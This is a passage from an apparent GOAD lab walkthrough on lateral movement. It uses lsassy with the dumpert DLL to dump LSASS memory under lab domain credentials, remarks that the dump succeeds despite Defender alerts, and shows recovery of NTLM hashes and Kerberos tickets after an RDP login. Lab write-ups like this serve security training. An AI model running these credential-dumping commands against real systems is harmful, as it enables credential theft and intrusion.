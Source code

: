 > Dumping LSASS almost always ring a red alert on the anti-virus of the target computer.<br>
> You will need to use AV bypass technics to be able to dump the lsass.exe process.
{: .prompt-warning }

- We will use lsassy combined with the [dumpert](https://github.com/outflanknl/Dumpert) module (you will have to compile dumpert first to get the dll file).

```bash
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll
```

![lateral_lsassy_dumpert.png](/assets/blog/GOAD/lateral_lsassy_dumpert.png)

> The defender av is trigged with dumpert out of the box, but lsassy still get the time to retreive the dump informations.
{: .prompt-info }

- We then find out domain NTLM hash and TGT from the Lsass process

- Now imagine a privileged user launch a connection to castelblack

```bash
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:castelblack.north.sevenkingdoms.local /cert-ignore
```

- We relaunch the dump and now we can see we have the catelyn.stark ntlm hash and kirbi file in the results

![lateral_lsassy_dumpert_catelyn.png](/assets/blog/GOAD/lateral_lsassy_dumpert_catelyn.png)
